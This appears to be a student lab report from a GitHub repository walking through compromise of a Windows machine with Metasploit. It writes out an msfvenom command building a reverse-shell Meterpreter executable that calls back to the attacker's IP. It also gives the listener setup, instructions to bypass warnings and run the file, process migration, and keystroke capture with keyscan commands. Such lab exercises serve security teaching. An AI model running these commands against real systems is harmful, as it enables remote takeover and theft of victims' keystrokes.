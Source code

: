 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit
# Developed by 
  Rithvik s 
  212223100045
# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
### PROGRAM:
Find the attackers ip address using ifconfig
### OUTPUT:
![374794141-b98e3dbe-cbf4-465e-83aa-f1ac913b2a51](https://github.com/user-attachments/assets/2f6e41f0-58e7-4c3b-a006-8d6c3cfebb98)
Create a malicious executable file fun.exe using msenom command 
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

### OUTPUT:
![374794574-094f111d-38e4-47a4-b950-8c0544a3463e](https://github.com/user-attachments/assets/a35a9889-c95a-404b-995b-1a4e2857a964)
copy the fun.exe into the apache /var/www/html folder
![374794668-1a19f712-d904-4e9a-9c3f-a0f824215d01](https://github.com/user-attachments/assets/b353b60d-1335-4fc4-8208-e5710a8ddd92)
Start apache server sudo systemctl apache2 start
![374794788-2944d067-02b2-43fc-9487-5f9e71c393b7](https://github.com/user-attachments/assets/a0e2e4f2-2219-4cb2-a119-ea9f8a3004be)
Check the status of apache2 sudo apache2 status

Invoke msfconsole:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
### OUTPUT:
![374795103-d6bd1bdb-3064-45e8-b6b1-e22d2e80209f](https://github.com/user-attachments/assets/bfbf1ec5-8eae-4283-972b-242054eac047)
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![374795180-7be60e9f-2ce3-487a-9668-8bdb282e8931](https://github.com/user-attachments/assets/ecbf4d84-df88-4168-999c-91fce0a744b2)
![374795180-7be60e9f-2ce3-487a-9668-8bdb282e8931](https://github.com/user-attachments/assets/20ab5b55-df3a-47a5-a7ef-f2ce45803618)
Bypass any warning boxes, double-click the file, and allow it to run. On kali give the command exploit
![374795286-596d3916-66f9-4605-8ae4-5dd21116b77a](https://github.com/user-attachments/assets/cf8f1540-8afd-4ce4-b388-ef67e147bb11)
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

Post Exploitation:
The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![374795471-d53176fa-7af0-4f05-b526-91713074335d](https://github.com/user-attachments/assets/ec75dc42-d147-4b5e-8477-fc44ae6d8ea4)
keyscan_dump Shows the keystrokes captured so far
![374795532-ec7c391d-62a6-4fdc-a2c3-ef383b6c8a57](https://github.com/user-attachments/assets/a25f940d-595a-482c-8a3c-47e1a59991b0)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
